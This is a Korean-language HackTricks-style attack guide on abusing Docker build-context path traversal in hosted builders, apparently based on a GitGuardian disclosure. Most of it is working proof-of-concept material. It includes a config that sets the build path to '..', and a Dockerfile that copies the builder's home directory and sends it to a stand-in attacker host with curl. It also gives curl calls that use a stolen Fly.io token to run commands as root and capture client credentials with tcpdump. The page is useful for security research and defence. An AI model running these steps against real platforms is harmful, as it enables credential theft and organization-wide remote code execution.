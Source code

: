 # Hosted Builders에서 Docker Build Context 악용 (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

CI/CD 플랫폼이나 hosted builder가 기여자에게 Docker build context 경로와 Dockerfile 경로를 지정하도록 허용하면, context를 상위 디렉토리(예: "..")로 설정해 호스트 파일을 build context의 일부로 만들 수 있는 경우가 많습니다. 그러면 공격자가 제어하는 Dockerfile이 COPY로 빌더 사용자 홈(예: ~/.docker/config.json)에 있는 비밀을 exfiltrate할 수 있습니다. 도난당한 registry tokens는 provider의 control-plane APIs에 대해 작동하여 조직 전체의 RCE를 가능하게 할 수도 있습니다.

## 공격 표면

많은 hosted builder/registry 서비스는 사용자가 제출한 이미지를 빌드할 때 대략 다음과 같은 작업을 수행합니다:
- repo-level config를 읽는데 여기에는 다음이 포함됩니다:
- build context path (Docker daemon으로 전송됨)
- Dockerfile path (해당 context에 상대적)
- 지정된 build context 디렉토리와 Dockerfile을 Docker daemon으로 복사
- 이미지를 빌드하고 hosted service로 실행

플랫폼이 build context를 canonicalize하거나 제한하지 않으면 사용자가 그것을 저장소 외부의 위치(path traversal)로 설정할 수 있으며, 이로 인해 빌드 사용자가 읽을 수 있는 임의의 호스트 파일들이 build context의 일부가 되어 Dockerfile에서 COPY로 접근 가능해집니다.

일반적으로 관찰되는 실무적 제약:
- Dockerfile은 선택한 context path 내에 있어야 하며 그 경로는 사전에 알려져 있어야 합니다.
- 빌드 사용자가 context에 포함된 파일들을 읽을 수 있는 권한이 있어야 합니다; 특수 디바이스 파일은 복사를 실패시킬 수 있습니다.

## PoC: Docker build context를 통한 Path traversal

상위 디렉토리 컨텍스트 내에 Dockerfile을 선언한 악성 서버 구성 예:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
- Using ".." often resolves to the builder user’s home (e.g., /home/builder), which typically contains sensitive files.
- Place your Dockerfile under the repo’s directory name (e.g., repo "test" → test/Dockerfile) so it remains within the expanded parent context.

## PoC: Dockerfile to ingest and exfiltrate the host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
$HOME에서 일반적으로 회수되는 대상:
- ~/.docker/config.json (registry auths/tokens)
- 기타 cloud/CLI 캐시 및 설정(예: ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

팁: 저장소에 .dockerignore가 있더라도 취약한 플랫폼 측의 context selection이 무엇이 daemon으로 전송되는지를 결정합니다. 플랫폼이 선택된 경로를 repo의 .dockerignore를 평가하기 전에 daemon으로 복사하면 호스트 파일이 여전히 노출될 수 있습니다.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

일부 플랫폼은 container registry와 control-plane API 모두에 사용할 수 있는 단일 bearer token을 발급합니다. registry token을 exfiltrate했다면 provider API에 대해 시도해보세요.

예: ~/.docker/config.json에서 훔친 token을 사용한 Fly.io Machines API에 대한 API 호출 예:

조직에서 앱 열거:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
앱의 어떤 머신에서든 root로 명령 실행:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
결과: 토큰이 충분한 권한을 가진 경우, 모든 호스팅된 앱에서 조직 전반에 걸친 remote code execution.

## 탈취된 호스팅 서비스에서의 비밀 탈취

호스팅된 서버에서 exec/RCE를 획득하면, 클라이언트가 제공한 비밀(API keys, tokens)을 수집하거나 prompt-injection 공격을 수행할 수 있습니다. 예: tcpdump를 설치하고 port 8080의 HTTP 트래픽을 캡처하여 들어오는 자격 증명을 추출합니다.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
캡처된 요청에는 종종 헤더, 본문 또는 쿼리 파라미터에 클라이언트 자격 증명이 포함되어 있습니다.

## 참조

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
